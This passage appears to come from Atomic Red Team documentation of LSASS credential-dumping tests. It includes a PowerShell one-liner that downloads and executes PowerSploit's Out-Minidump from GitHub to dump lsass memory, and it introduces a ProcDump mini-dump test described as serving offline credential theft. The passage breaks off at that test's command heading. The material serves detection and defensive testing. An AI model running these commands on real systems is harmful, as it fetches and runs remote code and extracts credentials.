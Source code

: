 **Supported Platforms:** Windows


**auto_generated_guid:** 6502c8f0-b775-4dbd-9193-1298f56b6781






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Out-Minidump.ps1'); get-process lsass | Out-Minidump
```

#### Cleanup Commands:
```powershell
Remove-Item $env:TEMP\lsass_*.dmp -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #9 - Create Mini Dump of LSASS.exe using ProcDump
The memory of lsass.exe is often dumped for offline credential theft attacks. This can be achieved with Sysinternals
ProcDump. This particular method uses -mm to produce a mini dump of lsass.exe

Upon successful execution, you should see the following file created c:\windows\temp\lsass_dump.dmp.

If you see a message saying "procdump.exe is not recognized as an internal or external command", try using the  get-prereq_commands to download and install the ProcDump tool first.

**Supported Platforms:** Windows


**auto_generated_guid:** 7cede33f-0acd-44ef-9774-15511300b24b





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_file | Path where resulting dump should be placed | path | C:&#92;Windows&#92;Temp&#92;lsass_dump.dmp|
| procdump_exe | Path of Procdump executable | path | PathToAtomicsFolder&#92;T1003.001&#92;bin&#92;procdump.exe|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 
